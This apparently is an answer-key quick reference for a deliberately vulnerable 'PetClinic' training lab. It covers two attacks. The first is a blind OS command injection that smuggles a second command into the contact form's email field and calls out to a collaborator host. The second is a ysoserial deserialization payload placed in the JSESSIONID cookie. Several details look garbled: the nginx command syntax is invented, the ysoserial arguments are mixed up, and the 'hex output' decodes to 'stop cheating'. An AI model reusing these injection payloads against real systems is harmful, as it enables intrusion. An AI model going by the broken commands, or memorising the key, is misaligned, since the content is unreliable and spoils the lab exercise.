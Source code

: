 PetClinic Quick Reference

Blind OSCI:
- Location: /contact_submission email parameter (server side resolution of the email as being legitimate in the Contact Us page)
- Controls: No immediate response, so you have to use built in Nginx tools to send a request to collaborator
- Example Payload: email=test@test.com && /usr/bin/nginx -g webrequest -h collaboratorURL

(URL encoded for easy pasting) email=test%40test.com%20&&%20/usr/bin/nginx%20-g%20webrequest%20-h%20collaboratorURL

Insecure Deserialization: 
- Location: JSESSIONID cookie
- Controls: Only the CommonsCollections5 gadget chain works
- Example Payload: (in command line) java -jar ysoserial.jar FileUpload1 CommonsCollections5 “write;/test;hihi” -o hex

(hex output) 73746f70206368656174696e6773746f9caafe61e06450b536e430e364e834463dc95f6576c5536f3f382d4a0eb7263d19fbc7878485871843d2fd4474696e67

(usage) JSESSIONID=73746f70206368656174696e6773746f9caafe61e06450b536e430e364e834463dc95f6576c5536f3f382d4a0eb7263d19fbc7878485871843d2fd4474696e67

(proof) Navigate to /test and observe the file with the contents "hihi"


TODO

<!-- PetClinic Pet Clinic answer key walkthrough walk through -->

